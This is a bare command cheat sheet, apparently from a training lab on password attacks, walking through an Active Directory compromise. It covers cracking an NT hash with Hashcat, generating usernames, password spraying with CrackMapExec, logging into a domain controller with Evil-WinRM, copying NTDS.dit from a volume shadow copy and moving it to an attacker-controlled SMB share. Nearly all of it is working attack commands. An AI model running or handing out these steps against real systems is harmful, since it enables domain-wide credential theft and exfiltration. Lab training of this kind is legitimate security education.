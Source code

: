 #### Cracking the NT Hash with Hashcat
```Shell
hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b rockyou.txt
```


## Attacking Active Directory & NTDS.dit

#### Using [Username Anarchy](https://github.com/urbanadventurer/username-anarchy) to convert a list of real names into common username formats
```Shell
username-anarchy -i /home/ltnbob/names.txt 
```

#### Launching the Attack with CrackMapExec
```Shell
crackmapexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt
```

### Capturing NTDS.dit

#### Connecting to a DC with Evil-WinRM
```Shell
evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'
```

#### Checking Local Group Membership using Evil-WinRM
```PowerShell
net localgroup
```

#### Checking User Account Privileges including Domain using Evil-WinRM
```PowerShell
net user bwilliamson
```

#### Creating Shadow Copy of C: using Evil-WinRM
```PowerShell
vssadmin CREATE SHADOW /For=C:
```

#### Copying NTDS.dit from the VSS using Evil-WinRM
```PowerShell
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

#### Transferring NTDS.dit to Attack Host using Evil-WinRM
```PowerShell
cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData
```

### A Faster Method: Using cme to Capture NTDS.dit
